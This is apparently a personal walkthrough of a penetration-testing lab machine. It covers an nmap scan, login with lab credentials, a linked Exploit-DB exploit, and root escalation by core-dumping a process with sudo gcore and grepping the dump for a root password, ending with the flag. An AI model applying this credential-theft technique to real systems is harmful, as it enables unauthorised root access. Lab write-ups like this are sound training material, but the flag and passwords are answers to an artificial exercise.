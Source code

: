 # nmap

```
sudo nmap -sC -sV 192.168.247.98 -oN nmap-pelican
```

![[PG/Linux/attachments/Pasted image 20250704141642.png]]

![[PG/Linux/attachments/Pasted image 20250704142509.png]]
# Web

![[PG/Linux/attachments/Pasted image 20250704141854.png]]

# Initial Access Creds (again)

```
charles / SupportDucklingDivision574
```

![[PG/Linux/attachments/Pasted image 20250704142158.png]]
- ssh didn't work

This exploit worked https://www.exploit-db.com/exploits/48654

![[PG/Linux/attachments/Pasted image 20250704144314.png]]

![[PG/Linux/attachments/Pasted image 20250704144250.png]]

I am charles in /opt/zookeeper

## Enum for Priv Esc 
```
sudo -l
```
![[PG/Linux/attachments/Pasted image 20250704144503.png]]

![[PG/Linux/attachments/Pasted image 20250704144553.png]]

Linpeas

Use gcore to try to read this file 
![[PG/Linux/attachments/Pasted image 20250704154303.png]]

```
sudo -u root /usr/bin/gcore -a -o /home/charles/output 494
```

![[PG/Linux/attachments/Pasted image 20250704154414.png]]

This is a core dump so can't just cat the file..

Running strings against this file 

```
strings output.494 | grep -A 10 -B 10 root
```

This looks like root pass - `ClogKingpinInning731`
![[PG/Linux/attachments/Pasted image 20250704154604.png]]

Try to switch to root user 

```
su root
```

Paste in `ClogKingpinInning731`


Got root.

![[PG/Linux/attachments/Pasted image 20250704154735.png]]

proof.txt

c7ada8c40b0a7f6af2a328c5d7263750